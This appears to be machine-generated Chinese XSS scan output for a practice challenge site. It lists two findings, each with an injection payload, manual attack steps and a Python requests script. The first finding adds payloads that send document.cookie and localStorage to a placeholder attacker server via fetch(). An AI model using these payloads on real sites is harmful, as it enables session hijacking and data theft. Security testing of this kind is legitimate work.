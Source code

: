 ### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: high
- 验证载荷: <script>alert(1)</script>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   <script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': '<script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: high
- 验证载荷: <img src=x onerror=alert(1)>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   <img src=x onerror=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': '<img src=x onerror=alert(1)>'}
   response = requests.get(url, params=params)
   ```

